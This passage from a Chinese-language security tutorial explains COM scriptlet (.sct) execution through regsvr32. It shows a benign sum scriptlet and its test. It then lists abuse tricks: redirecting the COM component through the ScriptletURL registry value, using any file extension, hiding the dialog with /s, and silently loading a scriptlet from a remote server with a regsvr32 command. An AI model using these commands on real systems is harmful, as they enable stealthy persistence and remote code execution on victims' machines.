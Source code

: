```
</public>
<script language="JScript">
<![CDATA[

function Sum(X, Y) {
    var result = X + Y;
    return result;
    }
]]>
</script>

</scriptlet>

```

TestJS.js: ([https://github.com/subTee/SCTPersistence/blob/master/TestJS.js](https://github.com/subTee/SCTPersistence/blob/master/TestJS.js))

```
var ref = new ActiveXObject("Component.InsideCOMJS");
var x = ref.Sum(4,6);
WScript.Echo(x);

```

**(2)可修改注册表键值以此更改COM组件内容**

COM组件的文件路径如下：

```
[HKCR\CLSID\{10001111-0000-0000-0000-000000000001}\ScriptletURL]
@="file://C:\\WINDOWS\\Desktop\\Component.sct"

```

如果修改为另一脚本的路径，那么再次调用组件会运行另一个脚本的内容

**(3)文件名可简化**

后缀名不一定必须用".sct"，其他格式也可以

如

```
regsvr32 /i:"Component.txt" scrobj.dll

```

**(4)/s参数**

加入/s参数可隐藏弹出的注册成功的对话框

**(5)sct文件可放在远程服务器上**如

```
regsvr32 /s /i:http://192.168.1.1/Component.txt scrobj.dll

```
